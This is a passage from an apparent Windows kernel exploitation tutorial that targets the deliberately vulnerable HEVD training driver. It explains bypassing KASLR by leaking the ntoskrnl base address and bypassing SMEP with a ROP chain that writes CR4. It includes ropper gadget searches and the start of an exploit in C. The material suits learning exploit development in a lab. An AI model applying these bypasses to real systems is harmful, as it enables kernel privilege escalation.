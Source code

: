 ```c
    printf("[*] Kernel Base Address: %llx\n", pKernelBaseAddress);

    return pKernelBaseAddress;
}
```
what we are doing here is getting the address of `ntoskrnl.exe` which is the windows kernel itself, its the first loaded driver therefore `lpImageBase[0]` gives us its address 

Well that was easy ! we bypassed KASLR by getting the kernel base address 

## Bypassing SMEP

now this will be harder since we will need to use rop (return oriented programming) to bypass SMEP.

we will use the first method so we will need to change the value of cr4 into the same value but we flip the 20th bit, we are left with two choices here 

whether we use a rop chain like this :

pop REGISTER
mov cr4, REGISTER 

in this case we will need to read the value of cr4 using a debugger then flip the bit and put it in our stack 

or the best approach is: 

pop REGISTER1 // 0x100000
xor cr4, REGISTER 

obviously the second one is much better but we don't really have a choice we have to check if these rop gadgets are available but the good news is since we are in the kernel all drivers are loaded in the same memory so we don't need to only look for gadgets inside HEVD we can look inside any driver !

we will try to find gadgets for the first method since i am sure we will find inside `ntoskernl.exe` 

to do so we can use a bunch of tools like 
 - ROPgadget
 - Ropper

in this guide we will use ropper

```
ropper --file ntoskrnl.exe --console
search %cr4%
> 0x0000000140207c53: mov cr4, rcx; ret;
search pop rcx
> 0x00000001404bc9a7: pop rcx; ret;
```
make sure to get ntoskrnl from the target machine and don't use the gadgets i got until you are sure they exist in your build 

nice we have what we need we can write an exploit now 

```c
#include <stdio.h>
#include <Windows.h>
#include <Psapi.h>
#include <stdlib.h>
#include <stdint.h>

#define QWORD ULONGLONG
uint64_t GetKernelBaseAddress()
{
    ULONG_PTR pKernelBaseAddress = 0;
    LPVOID* lpImageBase = NULL;
    DWORD dwBytesNeeded = 0;

```